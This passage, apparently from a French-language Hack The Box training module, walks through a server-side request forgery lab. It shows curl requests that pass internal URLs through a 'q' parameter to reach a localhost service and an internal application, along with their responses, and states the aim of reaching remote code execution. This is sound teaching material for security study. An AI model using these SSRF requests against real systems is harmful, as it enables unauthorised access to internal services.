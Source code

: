 Nous avons reçu une réponse valide pour le port `5000`. Vérifions-le comme suit.

#### cURL - Interagir avec la cible

  cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 64
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:47:16 GMT

<html><body><h1>Hey!</h1><a>Some internal app!</a></body></html>

```

Jusqu'à présent, nous avons appris à accéder aux applications internes et à utiliser différents schémas pour charger des fichiers locaux via SSRF. Forts de ces connaissances, essayons d'attaquer l' `internal.app.local`application Web, toujours via SSRF. Notre objectif ultime est de réaliser l'exécution de code à distance sur un hôte interne.

Tout d'abord, nous envoyons une simple requête cURL à l'application interne que nous avons découverte précédemment. Rappelez-vous les informations que nous avons découvertes selon lesquelles les deux applications chargent les ressources de la même manière (via le `q`paramètre).

#### cURL - Interagir avec la cible

  cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 83
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 13:51:15 GMT

<html>
<body>
<h1>Internal Web Application</h1>
<a>Hello World!</a>
</body>
</html>

```

Découvrons maintenant toutes les applications web écoutant en localhost. Essayons d'émettre une requête vers un port aléatoire pour identifier à quoi ressemblent les réponses des ports fermés.

#### cURL - Interagir avec la cible
